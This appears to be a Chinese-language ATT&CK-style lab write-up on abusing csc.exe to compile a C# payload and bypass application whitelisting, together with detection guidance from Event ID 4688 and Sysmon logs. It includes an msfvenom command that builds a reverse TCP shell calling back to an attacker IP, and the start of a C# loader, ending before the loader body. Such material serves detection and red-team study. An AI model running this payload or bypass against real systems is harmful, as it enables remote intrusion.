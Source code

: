 # T1027.004-Win-使用Csc.exe执行Payload（白名单）

## 描述

攻击者可能利用合法的软件开发工具（如`csc.exe`）执行恶意代码，以规避应用白名单防御机制。这些工具通常由可信证书签名，允许在系统中以合法身份运行。通过将恶意代码嵌入C#源代码并使用`csc.exe`编译，攻击者能够在目标系统上生成并执行恶意可执行文件，从而绕过基于签名的检测和白名单限制。

## 测试案例

### 测试1：使用Csc.exe编译并执行恶意C# Payload

`csc.exe`是Microsoft .NET Framework中的C#编译器，通常位于`C:\Windows\Microsoft.NET\Framework[64]\<version>\csc.exe`。攻击者可通过`csc.exe`将恶意C#源代码编译为可执行文件或DLL，并结合`InstallUtil.exe`执行以加载恶意代码。

**说明**：
- 默认情况下，`csc.exe`所在路径未添加到系统`PATH`环境变量，因此需指定完整路径运行。
- 在高版本Windows（如Windows 10/11、Server 2016+）中，可通过组策略启用进程命令行参数记录以增强监控。

**组策略配置**：
- 路径：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`
- 或者，部署Sysmon以记录详细的进程创建事件。

**默认路径**（以Windows 7为例）：
- 32位：`C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe`
- 64位：`C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe`

## 检测日志

- **Windows安全日志**：通过Event ID 4688（进程创建）记录`csc.exe`和`InstallUtil.exe`的执行（需启用进程跟踪审核）。
- **Sysmon日志**：通过Event ID 1（进程创建）捕获详细的命令行参数和父进程信息。

## 测试复现

### 环境准备

- **攻击机**：Kali 2019
- **靶机**：Windows Server 2012

### 测试过程

#### 1. 生成Payload

使用Metasploit生成C#格式的恶意shellcode（反向TCP Shell）：

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp
```

将生成的shellcode复制到以下C#源代码（`Micropoor_Csc.cs`）中：

```csharp
using System;
using System.Net;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Runtime.InteropServices;

// msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp
public class Program
{
    public static void Main()
    {
    }
```
